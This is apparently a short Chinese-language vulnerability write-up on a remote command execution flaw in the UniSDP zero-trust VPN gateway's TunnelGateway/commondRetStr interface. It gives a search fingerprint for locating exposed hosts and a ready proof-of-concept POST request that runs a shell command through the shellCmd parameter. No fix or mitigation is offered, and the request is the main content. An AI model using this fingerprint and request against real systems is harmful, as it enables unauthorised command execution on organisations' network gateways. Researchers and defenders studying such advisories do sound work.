


# 联软安界 UniSDP 软件定义边界系统 commondRetSt 命令执行漏洞

## 漏洞描述

联软安界UniSDP软件定义边界系统是基于零信任的下一代VPN，该系统2021.04.28版本中TunnelGateway某接口存在安全漏洞，漏洞允许攻击者将特制请求发送到服务器并远程命令执行。

## 漏洞影响

```
联软安界 UniSDP 软件定义边界系统
```

## 网络测绘

```
title="UniSSOView"
```

## 漏洞复现

登录页面



验证POC

```
POST /TunnelGateway/commondRetStr
  
shellCmd=id
```

